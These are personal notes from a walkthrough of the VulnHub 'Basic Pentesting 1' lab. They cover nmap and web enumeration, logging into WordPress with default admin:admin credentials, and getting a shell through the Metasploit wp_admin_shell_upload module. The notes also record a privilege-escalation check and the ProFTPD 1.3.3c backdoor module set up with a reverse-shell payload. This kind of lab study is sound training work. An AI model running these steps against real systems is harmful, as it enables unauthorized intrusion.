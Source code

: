 https://www.vulnhub.com/entry/basic-pentesting-1,216/

Difficulty: EASY


---

**S1REN's Template Reference**

\[OS]: Linux 3.2 - 4.14
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.6 
\[USERS]:   
\[CREDENTIALS]:  
http://vtcsec/secret/wp-login.php - admin:admin

---
\[To-Try LIST]:  

21 ftp     ProFTPD 1.3.3c:
- anonynmous:anonymous failed
- searchsploit
![[Pasted image 20250819112711.png]]

80 http    Apache httpd 2.4.18
/secret - WP Site 
/server-status

Later:
SSH 22 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2


---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).


--- 

\[Web Services Enumeration]:   

-  http://192.168.100.6 
- View Page Source - reveals nothing
- No Robots.txt

dirb $URL /usr/share/wordlists/dirb/common.txt  
Found 13

gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/secret
/server-status: You don't have permission to access this resource.

wpscan --url $URL/secret --disable-tls-checks --enumerate p --enumerate t --enumerate u
XML-RPC seems to be enabled: http://192.168.100.6/secret/xmlrpc.php
WordPress readme found: http://192.168.100.6/secret/readme.html
The external WP-Cron seems to be enabled: http://192.168.100.6/secret/wp-cron.php
WordPress version 4.9 identified (Insecure, released on 2017-11-16).
User(s) Identified:admin 

admin is default WP username - try default password "admin" - - Otherwise brute force??
- success


Many Links - don't resolve: can't find the server at vtccsec
Add vtcsec to /etc/hosts
Now it loads properly:
login page available: http://vtcsec/secret/wp-login.php

wpscan - http://vtcsec/secret/wp-login.php

```
msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
```
Set values accordingly:
![[Pasted image 20250819114258.png]]
meterpreter session opened


---


\[OTHER / PRIVILEGE-ESCALATION]:   

``` bash
meterpreter> shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@vtcsec:$ 

```

unix-privesc-check from pentest monkey. 
```
meterpreter> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check
shell
python -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp
chmod +x unix-privesc-check
./unix-privesc-check standard | grep WARNING
```

/etc/passwd - world writable!! -> can work from this



msf6 > search ProFTP 1.3.3c
```msfconsole
 use exploit/unix/ftp/proftpd_133c_backdoor 
show payloads
4 - payload/cmd/unix/reverse 
set payload 4

```


--- 
Take Away Concepts: 
Tools utilised:
- netdiscover
- nmap
- dirbuster/gobuster
- 


HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
